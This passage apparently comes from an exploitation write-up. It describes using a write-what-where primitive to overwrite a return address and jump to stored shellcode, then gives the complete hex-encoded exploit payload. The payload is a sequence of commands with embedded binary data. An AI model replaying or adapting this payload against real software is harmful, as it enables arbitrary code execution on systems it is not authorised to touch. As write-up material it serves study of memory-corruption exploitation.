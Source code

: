 Basically, we will use the write-what-where primitive to overwrite a RET address within memory and redirect the execution flow to our stored shellcode.

This post is already huge, so I will skip the script and directly include the final payload:

```markup
6e6577203720313233343b6e657720313020313233343b6e657720313820313233343b6e657720323120313233343b6e657720323920313233343b6e6577201234bc5151127720313233343b6e657720333220313233343b6e657720343320313233343b6e657720353420313233343b6e657720363520313233343b6e657720414141414141843eea3d51696c20313233343b6e65772041023c78403041324000ffb01210002031323334
```
